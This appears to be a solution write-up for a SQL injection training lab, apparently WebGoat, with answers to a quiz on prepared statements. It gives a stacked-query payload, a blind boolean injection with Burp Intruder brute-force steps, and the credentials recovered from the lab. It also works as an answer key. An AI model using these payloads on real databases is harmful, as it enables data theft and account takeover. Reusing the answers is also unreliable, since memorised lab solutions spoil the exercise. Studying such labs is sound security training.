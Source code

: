 # SQL injection (advanced)

## Task 3

getting all data

```
'; SELECT * FROM user_system_data;--
```

password is passW0rD

## Task 5

```
tom' and substring(password,1,1) = 't
```

```
catch PUT response
```

```
sendto intruder and clear
```

```
change ...'t... to ...'pass_char
```

```
ADD (right bar)
```

```
Go to payload bar, brute forcer, min i max  at 1
```

```
positive letter has only gives response 406 in attack
```

```
login:tom
password:thisisasecretfortomonly
```

## Task 6 (Q&A)

1. What is the difference between a prepared statement and a statement?

Solution 4: A statement has got values instead of a prepared statement

2. Which one of the following characters is a placeholder for variables?

Solution 3: ?

3. How can prepared statements be faster than statements?

Solution 2: Prepared statements are compiled once by the database management system waiting for input and are pre-compiled this way.

4. How can a prepared statement prevent SQL-Injection?

Solution 3: Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data.

5. What happens if a person with malicious intent writes into a register form :Robert); DROP TABLE Students;-- that has a prepared statement?

Solution 4: The database registers 'Robert' ); DROP TABLE Students;--'.
